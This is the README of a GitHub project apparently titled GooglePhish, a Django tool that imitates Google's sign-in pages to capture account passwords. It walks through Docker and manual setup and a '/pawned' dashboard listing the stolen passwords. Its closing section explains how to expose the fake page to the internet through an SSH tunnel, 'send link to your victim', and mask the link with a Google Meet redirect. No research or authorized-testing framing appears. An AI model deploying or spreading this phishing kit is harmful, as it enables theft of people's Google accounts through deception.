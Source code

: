# GooglePhish

![GooglePhish](.images/GooglePhish-500x500.png)

- Google Account Phishing Tool using Python Django Framework.

- Screenshots
  | Screenshots | Screenshots |
  | ----------- | ----------- |
  | ![Google Login Page Phisher Home Page Image](.images/home-page.png)| ![Google Login Page Phisher Password Page Image](.images/password-page.png) |

## Fast Installation Using docker

- Pull created image
  - Install [Docker](https://www.docker.com/products/docker-desktop/)
  - Pull googlephish image

      ```bash
      docker pull dmdhrumilmistry/googlephish
      ```

  - run docker image

      ```bash
      docker run -d -p 8000:8000 dmdhrumilmistry/googlephish
      ```

- Build Image and run using build command

    
    ```bash
      sudo docker build -t googlephish . 
    ```
    You can specify your credentials using build arguments like this :
    > ℹ️ Please replace build arguments by your credentials
    ``` bash
    sudo docker build -t googlephish --build-arg dj_email="admin@mail.local" --build-arg dj_username="admin" --build-arg dj_password="GooglePhish" . 
    ```

    and run it :
    ```bash
    docker run -d -p 8000:8000 googlephish
    ```
    If you have build the dockerfile with no arguments, the default credentials are :
    * Username : `admin`
    * Password : `GooglePhish`

- Using Docker Compose

   ```bash
    docker-compose up
   ```
  
  > :warning: Doesn't work yet 
  

## Installation

- Clone/Download repo

    ```bash
    git clone https://github.com/dmdhrumilmistry/GooglePhish.git
    ```

- Install requirements

    ```bash
    python3 -m pip install -r requirements.txt
    ```

- Check for errors

    ```bash
    python3 manage.py check
    ```

    > Proceed if no errors were encountered.

- migrate db

    ```bash
    python3 manage.py makemigrations
    python3 manage.py migrate
    ```

- Create user

    ```bash
    python3 manage.py createsuperuser
    ```

- Collect static files

    ```bash
    python3 manage.py collectstatic
    ```

- Run server

    ```bash
    python3 manage.py runserver
    ```

    > Use `--insecure` tag if any issue is encountered while loading static files.

## Generate and update new random key before using GooglePhish

- Generate and copy new key

    ```bash
    python3 generate_new_key.py
    ```

- update secret key in settings.py of GooglePhish on line 23

  ```python
    # SECURITY WARNING: keep the secret key used in production secret!
    SECRET_KEY = 'your_new_key'
  ```
  
## View Passwords using GooglePhish Dashboard Page

- Dashboard login page

    ```
    http://127.0.0.1:8000/pawned
    ```

## Start Server

```bash
python3 manage.py runserver
```

> if static files are not loading, turn on debug mode or use
>
> ```bash
> python3 manage.py runserver --insecure
> ```

## For phishing over the internet

- Start server

    ```bash
    python3 manage.py runserver
    ```

- forward port using ssh

    ```bash
    ssh -R 80:localhost:8000 localhost.run
    ```

    > 8000 is port of localhost server.
    > 80 is [localhost.run](https://localhost.run/) server port. Localhost is service that helps you to expose your server running on localhost to the internet, visit their [documentation](https://localhost.run/docs/) for more info

- Now send link to your victim

> You can redirect user from google meet to your phishing page link using
>
> ```
> https://meet.google.com/linkredirect?dest=your_link
> ```

## Project Maintainer
- [dmdhrumilmistry](https://github.com/dmdhrumilmistry)

## Contributors
 
 [Contributors List](https://github.com/dmdhrumilmistry/GooglePhish/graphs/contributors)

### Have any Ideas 💡 or issue

- Create an issue
- Fork the repo, update script and create a Pull Request

